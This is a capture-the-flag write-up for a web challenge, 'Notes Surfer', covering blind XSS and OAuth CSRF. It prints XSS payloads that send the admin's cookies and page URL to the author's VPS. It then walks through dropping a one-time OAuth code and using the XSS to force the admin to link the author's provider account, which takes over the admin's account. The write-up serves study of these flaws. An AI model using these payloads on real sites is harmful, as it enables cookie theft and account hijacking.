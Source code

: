 **NOTES SURFER** 


**Category:** Web
**Concepts:** oauth, csrf

**Problem Statement:**
Check out our new sticky note website!
(link to main webpage)
(link to oauth provider)

**Hints**
None


![image](../images/ns1.png)


Once I made accounts on the provider and main pages, There was an option to link the oauth provider to the main account.
On inspection of the landing page, I immediately tried XSS and SSTI on the notes. Both Absent

On further inspection I found another end point /report

![image](../images/ns4.png)

I tried to use XSS here but since the XSS was blind, I fired my VPS and used the payload

`<script>document.location.href = "myvps.com/"</script>`

and soon got a request on my access logs.

GREAT, so we have something now.

I tried to get the cookies by `<script>document.location.href = "myvps.com/" + btoa(document.cookie)</script>` but it seems all the cookies on the admin were HTTPOnly, so no luck there.

**Failed Attempt**

Next I realized that I could probably steal the admin's oath code if I somehow make the callback redirect to a page where the note with my XSS is stored.
So, I did the following

#Step 1: Create an XSS to get the url

Payload:

`<script>document.location.href = "myvps.com/" + btoa(document.location)</script>`

and sent it off

__Note that this xss not only gives us the URI of where the reported notes are stored but is also used to get the oauth code(since it is also sent via a GET request)__


#Step 2: Change the redirect URI in the Oauth request to this URI we recieved(this is the page accessible by admin where the reported note is stored)

Since this URI contains an XSS to send the current URL to my VPS, it should send the code to my VPS.

The oauth request looks like this `http://one.jh2i.com:50020/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fthree.jh2i.com%3A50039%2Foauth%2Fsignin_callback&scope=profile&state=7HBwKRgWyDgqfIEJmpU6suYVLxKAAF&action=signin`

The state is not checked so you can also omit it.

#Step 3: Login as admin using the oauth code

But the whitelisting on the redirect URI was strong and I couldn't change it, so this method failed.

**Successful Attempt**

I also noticed that the oauth code was one-time only. So I fired up burpsuite to intercept this code and drop the request. This was so that my code can be used by someone else (this someone is going to be the admin)

#Step 1: Initiate linking of oauth provider account with your main account

#Step 2: Drop the request which sends the oauth code from provider to main:

Use proxy like BurpSuite for this, make sure to copy the oauth code
![image](../images/ns2.png)

#Step 3: Use the XSS to perform a CSRF and spoof admin's account to link with your oauth:

Now that you have this oauth code, anyone who makes GET request to the url with the code, will have their main account linked to YOUR oauth provider account.
So use the XSS to do this to the admin

Payload:
`<script>document.location.href = 'http://one.jh2i.com:50039/oauth/signin_callback?code=Z0QosnS68dCvV7YN6ir32YqcOId0iM1XTuenkMb4HQwR0rYC'</script>`

#Step 4: Login with your oauth:

Now that your oauth is linked to the admin's main account, signing in through oauth will sign you into admin's main account.

![image](../images/ns3.png)



**FLAG:** flag{take_good_note_csrf_oauth}


